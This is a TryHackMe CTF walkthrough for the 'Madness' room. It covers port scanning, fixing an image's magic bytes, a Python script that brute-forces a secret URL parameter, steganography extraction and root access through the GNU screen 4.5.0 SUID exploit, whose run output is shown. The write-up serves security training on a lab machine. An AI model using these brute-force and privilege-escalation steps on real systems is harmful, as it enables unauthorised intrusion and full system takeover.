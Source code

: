 # Madness CTF TryHackMe
## This was easily the trickiest but most enjoyable room I have done yet

## 1. Scanning & Enumeration
We do the below scans in parallel.

### 1.1. Port Scanning: 

```
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nothing extraordinary.
```

### 1.2. Web Exploration
```html
<div class="main_page">
      <div class="page_header floating_element">
        <img src="thm.jpg" class="floating_element"/>
<!-- They will never find me-->
```
In the homepage, which is a default ubuntu page, we see the thm.jpg image, that does not render out properly. We see it in the source code.

### 1.3. Steganography
Exploring the image using strings, binwalk and steghide does not return anything.

At this point, one thing CTF challenges often have is the change in the magic number of the file.

These magic numbers are used by the system to recognise which file it is. Using xxd --plain thm.jpg > wow.txt we see the first line: ```89504e470d0a1a0a000000010100000100010000ffdb0043000302020302```

I looked up the actual values for jpg files. We thus change the first line to: ```ffd8ffe000104a46494600010100000100010000ffdb0043000302020302```

We see the hidden directory mentioned in the image!

PS: It is also a good idea to download the image … just in case, you know?

### 1.4. Hidden Directory Exploration
The hidden directory screenshot, asking for a secret number

Info gathered:

We have to enter a secret
Source code mentions something about the type of input and the size of input.
The question is thus: How do we input?
1.5. Finding the Secret
Trying the below gives us an expected response. Note how the parameter is accepted.
```
┌──(kali㉿kali)-[/tmp]
└─$ curl 10.10.0.237/{hidden_directory_name}/?secret=1
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 1</p>

<p>That is wrong! Get outta here!</p>

</div>
</body>
</html>
```
We also see the hint printed out here. Time for some scripting!

I wrote the below code, which you can use to brute-forcing the value of the secret parameter.
```
┌──(kali㉿kali)-[/tmp]
└─$ cat script.py
import requests

url = "http://MACHINE_IP_HERE/{hidden_directory_name}/?secret="

for i in range(100):
    curr_url = url+str(i)
    response = requests.get(curr_url)
    if response.text.find("wrong") == -1:
        print(i)
        break
    print(f"Checking {i} rn")
    
```
And we get the secret number, which gets us a key!

But, to what?

### 1.6. Steganography
Remember the image we fixed earlier? Well, this is where the key is being used.
```
┌──(kali㉿kali)-[/tmp]
└─$ steghide --extract --stegofile download.jpeg 
Enter passphrase: 
wrote extracted data to "hidden.txt".
```

```
┌──(kali㉿kali)-[/tmp]
└─$ cat hidden.txt 
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
Ey, Voila! Using rot13 gives us the username.
```
But … PASSWORD????????

## 2. Foothold (finally): Big Brain Time
At this point, we have no active paths we could explore. Bruteforcing SSH is not a good idea. What to do?

This is very sneaky. Saw the image on the room? Download it.
```
┌──(kali㉿kali)-[/tmp]
└─$ steghide --extract --stegofile f***.jpg      
Enter passphrase: 
wrote extracted data to "password.txt".
```

```
┌──(kali㉿kali)-[/tmp]
└─$ cat password.txt 
I didn't think you'd find me! Congratulations!

Here take my password

{hidden}
```
AH YES! Finally!

## 3. PrivEsc
We epxlore the common paths to priv esc.
```
joker@ubuntu:~$ sudo -l
[sudo] password for joker: 
Sorry, user joker may not run sudo on ubuntu.
```
^not useful.
```
joker@ubuntu:~$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/bin/fusermount
/bin/su
/bin/ping6
/bin/screen-4.5.0
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
```

^finding set uid bit

Does something seem off to you? I googled it, and found the exploit.

Copy-pasting the script and executing -
```
joker@ubuntu:~$ vim wow.sh
joker@ubuntu:~$ bash wow.sh 
wow.sh: line 1: creenroot.sh: command not found
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.
```
```
# whoami
root
```

### System Compromised :)
